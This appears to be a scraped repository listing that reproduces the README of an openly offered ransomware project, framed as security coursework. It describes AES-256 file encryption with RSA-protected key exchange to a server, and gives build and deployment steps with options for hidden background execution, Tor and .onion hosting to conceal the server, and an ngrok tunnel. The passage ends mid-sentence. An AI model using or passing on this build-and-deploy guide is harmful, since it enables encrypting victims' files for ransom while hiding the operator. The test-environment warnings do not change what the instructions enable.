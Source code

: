 | 14 | [ransomware](https://github.com/abhir98/ransomware) | Project Summary This project was developed for the Computer Security course at my academic degree. Basically, it will encrypt your files in background using AES-256-CTR, a strong encryption algorithm, using RSA-4096 to secure the exchange with the server, optionally using the Tor SOCKS5 Proxy. The base functionality is what you see in the famous ransomware Cryptolocker.  The project is composed by three parts, the server, the malware and the unlocker.  The server store the victim's identification key along with the encryption key used by the malware.  The malware encrypt with a RSA-4096 (RSA-OAEP-4096 + SHA256) public key any payload before send then to the server. This approach with the optional Tor Proxy and a .onion domain allow you to hide almost completely your server.  Features Run in Background (or not) Encrypt files using AES-256-CTR(Counter Mode) with random IV for each file. Multithreaded. RSA-4096 to secure the client/server communication. Includes an Unlocker. Optional TOR Proxy support. Use an AES CTR Cypher with stream encryption to avoid load an entire file into memory. Walk all drives by default. Docker image for compilation. Building the binaries DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT! I'm not resposible if you acidentally encrypt all of your disks!  First of all download the project outside your $GOPATH:  git clone github.com/mauri870/ransomware cd ransomware If you have Docker skip to the next section.  You need Go at least 1.11.2 with the $GOPATH/bin in your $PATH and $GOROOT pointing to your Go installation folder. For me:  export GOPATH=~/gopath export PATH=$PATH:$GOPATH/bin export GOROOT=/usr/local/go Build the project require a lot of steps, like the RSA key generation, build three binaries, embed manifest files, so, let's leave make do your job:  make deps make You can build the server for windows with make -e GOOS=windows.  Docker ./build-docker.sh make Config Parameters You can change some of the configs during compilation. Instead of run only make, you can use the following variables:  HIDDEN='-H windowsgui' # optional. If present the malware will run in background  USE_TOR=true # optional. If present the malware will download the Tor proxy and use it to contact the server  SERVER_HOST=mydomain.com # the domain used to connect to your server. localhost, 0.0.0.0, 127.0.0.1 works too if you run the server on the same machine as the malware  SERVER_PORT=8080 # the server port, if using a domain you can set this to 80  GOOS=linux # the target os to compile the server. Eg: darwin, linux, windows Example:  make -e USE_TOR=true SERVER_HOST=mydomain.com SERVER_PORT=80 GOOS=darwin  The SERVER_ variables above only apply to the malware. The server has a flag --port that you can use to change the port that it will listen on.  DON'T RUN ransomware.exe IN YOUR PERSONAL MACHINE, EXECUTE ONLY IN A TEST ENVIRONMENT! I'm not resposible if you acidentally encrypt all of your disks!  Step by Step Demo and How it Works For this demo I'll use two machines, my personal linux machine and a windows 10 VM.  For the sake of simplicity, I have a folder mapped to the VM, so I can compile from my linux and copy to the vm.  In this demo we will use the Ngrok tool, this will allow us to expose our server using a domain, but you can use your own domain or ip address if you want. We are also going to enable the Tor transport, so .onion domains will work without problems.  First of all lets start our external domain:  ngrok http 8080 This command will give us a url like http://2af7161c.ngrok.io. Keep this command running otherwise the malware won't reach our server.  Let's compile the binaries (remember to replace the domain):  make -e SERVER_HOST=2af7161c.ngrok.io SERVER_PORT=80 USE_TOR=true The SERVER_PORT needs to be 80 in this case, since ngrok redirects 2af7161c.ngrok.io:80 to your local server port 8080.  After build, a binary called ransomware.exe, and unlocker.exe along with a folder called server will be generated in the bin folder. The execution of ransomware.exe and unlocker.exe (even if you use a diferent GOOS variable during compilation) is locked to windows machines only.  Enter the server directory from another terminal and start it:  cd bin/server && ./server --port 8080 To make sure that all is working correctly, make a http request to http://2af7161c.ngrok.io:  curl http://2af7161c.ngrok.io If you see a OK and some logs in the server output you are ready to go.  Now move the ransomware.exe and unlocker.exe to the VM along with some dummy files to test the malware. You can take a look at cmd/common.go to see some configuration options like file extensions to match, directories to scan, skipped folders, max size to match a file among others.  Then simply run the ransomware.exe and see the magic happens 😄.  The window that you see can be hidden using the HIDDEN option described in the compilation section.  After download, extract and start the Tor proxy, the malware waits until the tor bootstrapping is done and then proceed with the key exchange with the server. The client/server handshake takes place and the client payload, encrypted with an RSA-4096 public key must be correctly decrypted on the server. The victim identification and encryption keys are stored in a Golang embedded database called BoltDB (it also persists on disk). When completed we get into the find, match and encrypt phase, up to N-cores workers start to encrypt files matched by the patterns defined. This proccess is really quick and in seconds all of your files will be gone.  The encryption key exchanged with the server was used to encrypt all of your files. Each file has a random primitive called IV, generated individually and saved as the first 16 bytes of the encrypted content. The algorithm used is AES-256-CTR, a good AES cypher with